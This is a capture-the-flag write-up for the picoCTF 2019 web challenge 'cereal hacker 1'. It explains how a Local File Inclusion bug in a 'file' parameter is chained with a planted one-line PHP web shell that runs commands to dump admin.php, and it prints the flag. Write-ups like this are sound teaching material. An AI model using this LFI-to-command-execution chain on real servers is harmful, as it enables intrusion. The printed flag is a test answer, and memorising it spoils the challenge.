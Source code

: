 # web / cereal hacker 1

> Points: 450 \
> previous cereal hacker | [next cereal hacker](../cereal-2)

## Question

> Login as admin. <https://2019shell1.picoctf.com/problem/12279/> or <http://2019shell1.picoctf.com:12279>

## Solution

Following the link immediately redirects you to `/index.php?file=login`.
Submitting the form sends a `POST` request to `/index.php?file=login`.
`file` is a suspicious parameter name, so we can test out other "file"s in there.
It turns out that `head`, `foot`, and `admin` are all valid "file"s.

These files must be loading from somewhere, presumably PHP files.
Trying to `GET` any one (for example `/admin.php`) results in the body content of that page (or in the case of `head` and `foot`, the header and footer of the pages).
This is indicative of a Local File Inclusion (LFI) vulnerability.
If we can get a PHP file somewhere on the server that the webserver can read from, it can execute arbitrary PHP code.
We already have SSH access provided by picoCTF, so we can write to the `/tmp` directory on the server.

```console
retrocraft@pico-2019-shell1:~$ touch /tmp/lfi.php
retrocraft@pico-2019-shell1:~$ echo "hello, world!" > /tmp/lfi.php
```

Bringing up `/index.php?file=/tmp/lfi` shows "hello, world!" onscreen.
We can now step this up a notch by putting what amounts to a reverse shell on the server.

```php
<?php
echo(system($_GET['cmd']));
?>
```

With this, we can request `/index.php?file=/tmp/lfi&cmd=cat%20admin.php`.
In the dump of `admin.php`, we find the flag.

### Flag

`picoCTF{3fba6964d680deb73b38b7f2916df7d5}`
